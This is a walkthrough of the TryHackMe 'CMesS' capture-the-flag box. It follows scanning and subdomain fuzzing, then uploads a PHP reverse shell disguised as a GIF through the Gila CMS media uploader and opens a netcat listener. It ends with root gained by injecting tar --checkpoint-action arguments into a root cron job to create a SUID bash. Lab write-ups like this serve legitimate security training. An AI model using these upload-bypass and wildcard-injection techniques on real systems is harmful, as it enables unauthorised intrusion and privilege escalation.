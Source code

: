In this walkthrough, we'll go over a challenge (intermediate) level box called "CMesS". CMesS is one of the Linux Privesc boxes on [TryHackMe](https://tryhackme.com/room/cmess) and it was also one of the challenges from [TCM's Linux Privilege Escalation Course on Udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners/).

![CMesS](CMesS.png)
![CMesS IP](CMesS-IP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.227.177 --open
```
![CMesS nmap](CMesS-nmap.png)

Let's also run the vulnerability scripts as well:
```bash
nmap --script vuln -p 22,80 10.10.227.177
```
![CMesS nmap vuln](CMesS-nmap-vuln.png)

However, nmap vuln scan didn't reveal much. Since port 80 is open and Apache httpd 2.4.18 is running, we can start a directory search:
```bash
dirsearch -u http://10.10.227.177 -e php,cgi,html,htm,bak,old,txt -r
```
![CMesS dirsearch-1](CMesS-dirsearch-1.png)
![CMesS dirsearch-2](CMesS-dirsearch-2.png)

After enumerating every folder, I realized that a valid set of credentials required to get into this application:

![Gila index](Gila-index.png)
![Gila admin](Gila-admin.png)

It looks like we have exhausted every option, on my end I also went through every Github exploit related to Apache 2.4.18 (Ubuntu). Next option is to look for subdomains:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hl 107 -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -t 100
```
![CMesS wfuzz](CMesS-wfuzz.png)

As we can see there is another domain "dev", let's add that to our /etc/hosts file and try to visit the site:

![CMesS /etc/hosts](CMesS-hosts.png)

![CMesS dev domain](CMesS-dev-domain.png)

Now, we can try to use andre@cmess.thm email with the above (blurred) password. Once we login, we can browse to "Content" --> "Media" to see if we can upload a reverse shell:

![Gila admin console](Gila-admin-console.png)

We can upload a txt file to see if there is a file type restriction for upload and then intercept the traffic with BurpSuite:

![Gila burp suite intercept](Gila-burp-suite-intercept.png)

And it looks like, we can only upload media files. Let's think about it for a second, we can upload png, jpeg, jpg, or gif so how do we do that? Let's download PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell and we need to change the IP address, and port if you would like. Now, change the file extension to gif:
```bash
cp php-revshell.php php-revshell.php.gif
```
Upload it to the website, but intercept it with BurpSuite and add "GIF89a;" on the top of PHP code:

![Gila BurpSuite intercept](Gila-gif-intercept.png)

![Gila revshell](Gila-revshell.png)

Let's change the file name to "php-revshell.php" on the Gila site:

![Gila php revshell](Gila-revshell-php.png)

Turn off the proxy and start a netcat listener on our Kali machine ```nc -nlvp 1234``` Now, all we need to do this is visiting cmess.thm/assets/php-revshell.php If all goes well, we should receive a reverse shell back:

![Gila initial foothold](Gila-initial-foothold.png)

From this point on, I decided to use LinEnum from https://github.com/rebootuser/LinEnum. I always save Github scripts to my opt directory so I started a Python server and brought it over the compromised machine, but before let's upgrade our shell with python3:

![Which Python](CMesS-Which-Python.png)
```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
```
```bash
sudo python3 -m http.server 1111
```
And you can use wget on the target machine to download it. After downloading, make sure that it is executable ```chmod +x LinEnum.sh```. Now, we are ready to run LinEnum ```./LinEnum.sh```

If we look at the output, the first thing we see is a password.bak file which we have read right to it:

![LinEnum output](CMesS-LinEnum-output.png)

```cat /opt/.password.bak```

![Password Content](CMesS-Password-Content.png)

We know that port 22 is open which is SSH so let's try to ssh into the machine with andres password:
```bash
ssh andres@cmess.thm
```
![SSH into](CMesS-SSH-Into.png)

It worked and we can also see ```user.txt``` file which has the user flag. Last task remaining is to become root. I am again running LinEnum to see if I can find anything interesting that can be used to escalate privileges.

![LinEnum-Crontab](CMesS-LinEnum-Crontab.png)

![LinEnum-Sudo-Version](CMesS-Sudo-Version.png)

![LinEnum-SUID-Files](CMesS-SUID-Files.png)

I tried sudo version exploit and other SUID files and nothing worked for me. The last thing left is to use cron jobs to get a root shell. If we look at the last cron job, we see that it is run by root. It goes into ```/home/andre/backup``` and creates a backup file in ```/tmp```. Here is the script to escalate our privilege via the last cron job:
```bash
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > runme.sh  --> this generates runme.sh file which copies /bin/bash to /tmp
touch /home/andre/--checkpoint=1 
touch /home/andre/--checkpoint-action=exec=sh\ runme.sh
```
After that we wait for about one minute and then check ```/tmp``` folder to see if bash has been copied:

![Bash](CMesS-bash.png)

Now, we can run the bash file with ```/tmp/bash -p```

![Root](CMesS-Root.png)

Woww, we have done it, we can grab the root file which has the root flag.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)


